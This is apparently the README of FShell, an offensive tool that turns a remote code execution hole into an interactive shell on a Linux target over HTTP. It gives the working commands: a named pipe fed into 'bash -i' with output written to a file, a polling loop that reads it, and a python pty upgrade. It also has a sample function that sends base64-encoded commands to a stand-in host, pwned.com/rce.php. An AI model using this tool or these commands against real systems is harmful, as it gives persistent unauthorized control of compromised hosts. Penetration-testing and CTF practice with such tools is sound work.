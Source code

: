 
# **FShell**

## What is that
FShell is my own Forward Shell designed to get an interactive tty using remote code execution through a stageless protocol (eg HTTP).


## How it is working
The concepts behind this forward shell are pretty simple.

First you need to create a named pipe on the remote system, it will be used to send command to our tty <br>
```mkfifo /tmp/input```.

Then, create a bash loop that read named pipe content, send it to bash and send the stdin & stderr to output file. <br>
```tail -f /tmp/input | /bin/bash -i > /tmp/output 2>&1 ```

[Reading named pipe] -> [Execute named pipe content] -> [Send stdin/stderr into output file] -> [Go to reading named pipe because of '-f' tail option]

Next part is to start a python thread that performing ```cat /tmp/output``` regularly in order to get output of commands. <br/>
If the thread find output, it will clear file content using ```echo '' > /tmp/output```<br/>
<br>*Tips: In order to avoid error logging of an non-existing file, we execute 'id' command before starting the 'GetOutput' thread to create the output file before reading it.*

One of the last step is to get user input from our python script and sent it in the named pipe using that kind of command: <br>```echo USERCMD > /tmp/input```

**Final trick**
So, using this we get back a remote interactive shell but some command should not work because we have not a 'tty'.
The 'upgrade_shell' command perform a ```python -c 'import pty;pty.spawn("/bin/bash")'``` (and some export and aliases) to spawn a real tty by the current process (used in named pipe loop)


## Requirements
### On attacker machine

Python3 & lib:
- requests
- termcolor

### On the targeted remote system
It is designed to target Linux OS only and require basic commands/tools on the remote system:
- bash
- mkfifo
- cat
- tail
- ps
- grep
- awk
- kill
- python (and pty module)

## Usage
You can change the ```WRITABLE_FOLDER``` variable if /tmp is not available or if you have something better (prefer /dev/shm if available)

You **must** redefine ```execute``` function to perform your remote code execution:

```python3
def execute(cmd, verbose=False, timeout=None)
    """
    :cmd      Raw shell command to execute on the remote system
    :timetout MANDATORY /!\ Used to kill blocking exec loop (used in named pipe creation) in case you can't, put named pipe creation in separated thread
    :verbose  print full cmd execute on the remote system (Debug mode)
    """
    # Put your RCE code here
    r = requests.get('http://pwned.com/rce.php?cmd=%s' % (b64encode(cmd)), timeout=timeout)
    return r.text.strip() # You can apply formating if the output is not only the output of command
```
### Demo

![FShell Demo](https://github.com/Hypnoze57/FShell/blob/master/demo.gif)


# Thanks

Thanks to [@ippsec](https://twitter.com/ippsec), I wasn't knowing that something like this was possible before watching his videos !

Hope you enjoy it!
